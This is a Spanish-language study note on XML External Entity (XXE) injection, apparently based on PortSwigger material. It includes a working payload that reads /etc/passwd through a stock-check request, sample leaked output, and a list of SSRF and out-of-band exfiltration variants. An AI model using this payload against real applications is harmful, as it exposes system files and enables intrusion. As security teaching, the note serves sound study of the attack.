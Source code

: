 # Terorico

Es un tipo de vulnerabilidad web que permite al atacante vulnerar como se procesar datos XML. Resulta en ver archivos del sistema, interactuar con el backend o sistemasa. Puede escalar a un SSRF.

![](../../.gitbook/assets/imagen%20%28615%29.png)

Muchas aplicaciones usan XML para trasmitir data entre el navegador y el server. La mayoria manejan apis de xml vulnerables desde la especificacion misma de xml.

## Tipos

### Explotando XXE para obtener archivos

Cuando una entidad es definida conteniendo elementos de archivos y es retornada junto a la respuesta de la webapp

Para realizar la inyeccion neceitamos modificar el xml en dos formas:

* Introducir o editar un DOCTYPE element que defina una entidad externa contenienod el path al archivo.
* Editar el valor de unn XML retornado por la aplicacion usado para definir una entidad externa.

Suponer entonces que tenemos una aplicacion que busca el stock de un producto haciendo la siguiente peticion a un server:

 `<?xml version="1.0" encoding="UTF-8"?>  
 <stockCheck><productId>381</productId></stockCheck>`

La aplicacion no tiene ninguna defensa contra XXE entonces podemos explotar esto para obtener /etc/passwd

  `<?xml version="1.0" encoding="UTF-8"?>  
 <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>  
 <stockCheck><productId>&xxe;</productId></stockCheck>`

Aqui se define una entidad externa \(&xxe\) que tiene de valor el contenido de etc/paswd, Usa el valor del product id para que nos lo retorne.

 `Invalid product ID: root:x:0:0:root:/root:/bin/bash  
 daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin  
 bin:x:2:2:bin:/bin:/usr/sbin/nologin  
 ...`

> With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response. To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response.





------------



*  [Exploiting XXE to retrieve files](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files), where an external entity is defined containing the contents of a file, and returned in the application's response.
*  [Exploiting XXE to perform SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks), where an external entity is defined based on a URL to a back-end system.
*  [Exploiting blind XXE exfiltrate data out-of-band](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band), where sensitive data is transmitted from the application server to a system that the attacker controls.
*  [Exploiting blind XXE to retrieve data via error messages](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages), where the attacker can trigger a parsing error message containing sensitive data.





